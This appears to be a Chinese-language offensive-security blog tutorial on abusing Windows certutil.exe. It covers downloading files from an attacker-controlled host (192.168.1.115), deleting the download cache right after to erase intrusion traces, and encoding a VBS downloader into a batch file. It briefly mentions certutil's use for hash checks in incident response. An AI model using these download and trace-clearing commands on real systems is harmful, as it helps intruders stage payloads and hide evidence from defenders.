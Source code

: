 专注APT攻击与防御
https://micropoor.blogspot.com/

**certutil微软官方是这样对它解释的：**
Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。
url:https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc732443(v=ws.11)

但是近些年好像被玩坏了。

靶机：windows 2003 windows 7

certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt
![](media/d5ad3e478f8b4df59283786537e748f6.jpg)

默认下载为bin文件。但是不影响在命令行下使用。
![](media/346d182aad2fafe6b894d0b08c994e0e.jpg)

certutil.exe下载有个弊端，它的每一次下载都有留有缓存，而导致留下入侵痕迹，所以每次下载后，**需要马上执行如下**：

`certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete`

![](media/1e7636c8225aaf3cd99d81bd44afeff9.jpg)

而在应急中certutil也是常用工具之一，来对比文件hash，来判断疑似文件。

**Windows 2003：**
![](media/4dd859482e45ae5632c0302798c69329.jpg)

**Windows 7：**
![](media/edec57e27ee820bc6c423481454ee6fc.jpg)

**certutil的其它高级应用：**
`C:\>certutil -encode c:\downfile.vbs downfile.bat`
![](media/cb14f787f5f65099047d739544e41dbc.jpg)

**file:downfile.bat**
![](media/b659cc22fd3ef3bc8931857f8a255c44.jpg)

**解密：**
![](media/bdb9cc7f59e382ddb3e607e704bea481.jpg)

**file:downfile.txt**
![](media/f0e6d3203cc514f0a7c611453246da1e.jpg)

**后者的话：**powershell内存加载配合certutil解密是一件非常有趣的事情。会在未来的系列中讲述。

>   Micropoor
